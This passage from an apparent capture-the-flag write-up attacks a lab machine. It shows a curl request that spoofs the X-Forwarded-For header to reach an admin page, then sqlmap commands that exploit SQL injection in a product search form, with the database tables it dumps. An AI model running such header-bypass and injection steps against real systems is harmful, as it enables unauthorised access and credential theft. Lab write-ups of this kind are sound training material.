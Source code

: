 ```
$ curl http://10.10.10.167/admin.php -H 'X-Forwarded-For: 192.168.4.28'
```

It works we can access the page but we can do that in [burp][burp] in a persistent way
so we can browse the app in our web browser rather than with curl.

![](https://i.imgur.com/bN6sATB.png)

So now we can see this.

![](https://i.imgur.com/RtMZTMn.png)

### Webapp Exploitation

**TL;DR**: search products SQLi: dump creds + cmd exec

There was a comment _Import Products_ and also a SQL database from the nmap scan
so we can try a SQL injection (SQLi).

I used [sqlmap][sqlmap] (not forgetting to add the `X-Forwarded-For` header) to
exploit the SQLi.

First, let's list tables:

```
$ sqlmap -u http://10.10.10.167/search_products.php --method POST -p productName --data 'productName=toto' --tables -H 'X-Forwarded-For: 192.168.4.28'

[00:29:49] [INFO] fetching tables for databases: 'information_schema, mysql, warehouse'
Database: information_schema
[77 tables]
...

Database: mysql
[31 tables]
+---------------------------------------+
| user                                  |
| column_stats                          |
| columns_priv                          |
| db                                    |
| event                                 |
| func                                  |
| general_log                           |
| global_priv                           |
| gtid_slave_pos                        |
| help_category                         |
| help_keyword                          |
| help_relation                         |
| help_topic                            |
| index_stats                           |
| innodb_index_stats                    |
| innodb_table_stats                    |
| plugin                                |
| proc                                  |
| procs_priv                            |
| proxies_priv                          |
| roles_mapping                         |
| servers                               |
| slow_log                              |
| table_stats                           |
| tables_priv                           |
| time_zone                             |
| time_zone_leap_second                 |
| time_zone_name                        |
| time_zone_transition                  |
| time_zone_transition_type             |
```